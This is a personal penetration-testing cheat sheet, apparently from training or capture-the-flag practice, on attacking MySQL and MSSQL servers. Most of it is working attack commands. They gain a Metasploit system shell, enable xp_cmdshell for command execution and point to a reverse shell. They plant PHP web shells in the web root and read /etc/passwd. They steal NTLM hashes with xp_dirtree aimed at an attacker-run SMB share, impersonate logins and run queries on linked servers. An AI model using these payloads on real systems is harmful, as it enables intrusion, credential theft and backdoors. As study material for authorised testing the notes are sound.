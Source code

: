 
connecting to [[mySQL]]
connecting to [[MSSQL]] using sqlcmd

# Easy way to get system access
msfconsole -> use mssql_payload 
put in LHOST, RHOSTS, Username, Password and run. 
User must be sql admin tho
once meterpreter shel is there use `getsystem`


# Execute Commands

## MSSQL
xp_cmdshell -> allow us to execute system commands using SQL (but disabled by default)

enabling xp_cmdshell (if we have the appriopriate privileges)
```
EXECUTE sp_configure 'show advanced options', 1
go

RECONFIGURE
go

EXECUTE sp_configure 'xp_cmdshell', 1
go

RECONFIGURE
go
```

sqlcmd
```
xp_cmdshell 'whoami \priv'
go
```
create revshell (in powershell base64) and then execute it 


## writing files in mssql 
```cmd-session
1> sp_configure 'show advanced options', 1
2> go
3> RECONFIGURE
4> go
5> sp_configure 'Ole Automation Procedures', 1
6> go
7> RECONFIGURE
8> go
```

```cmd-session
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> go
```

## reading local files 
```cmd-session
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> go
```

## Mysql 
write local files 
```
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```
rmb to check the website to find what web root it is 

Privilege needed:
`secure_file_priv` may be set as follows:

- If empty, the variable has no effect, which is not a secure setting.
- If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations.
```
show variables like "secure_file_priv";
```

reading local files 
```shell-session
select LOAD_FILE("/etc/passwd");
```

# MSSQL Hash Stealing
First we need to start responder [[3 - Hacking/3.12 Attack Services/SMB|SMB]] or impacket-smbserver [[SMB Server]] to pretend to be a smb server and then connect to it to steal the hash

```
1> EXEC master..xp_dirtree '\\10.10.14.58\share\'
2> go

1> EXEC master..xp_subdirs '\\10.10.14.58\share\'
2> go
```
we can crack the hash using [[Hashcat]] (-m 5600, -a 0) or we can [[Pass the Hash (PtH)]]

# Impersonate Existing Users with MSSQL 
run these commands in master DB using `USE master`
Identify Users that we can impersonate
```cmd-session
SELECT DISTINCT b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';



1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> go
```

Verifying our current user and role
```cmd-session
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```

Impersonating
```cmd-session
1> EXECUTE AS LOGIN = 'john'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> go
```
we can use `REVERT` to go back to being the previous user

# Communicate with other databases with mssql 
```cmd-session
1> SELECT srvname, isremote FROM sysservers
2> go

srvname                             isremote
----------------------------------- --------
DESKTOP-MFERMN4\SQLEXPRESS          1
10.0.0.12\SQLEXPRESS                0
```
1 -> remote server
0 -> linked server

we can pass EXECUTE statements to linked servers
```
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]

```

Opening file at linked server
```
EXECUTE('SELECT * from OPENROWSET(BULK 
''C:\Users\Administrator\Desktop\flag.txt'', SINGLE_CLOB) AS Contents') at [LOCAL.TEST.LINKED.SRV]

```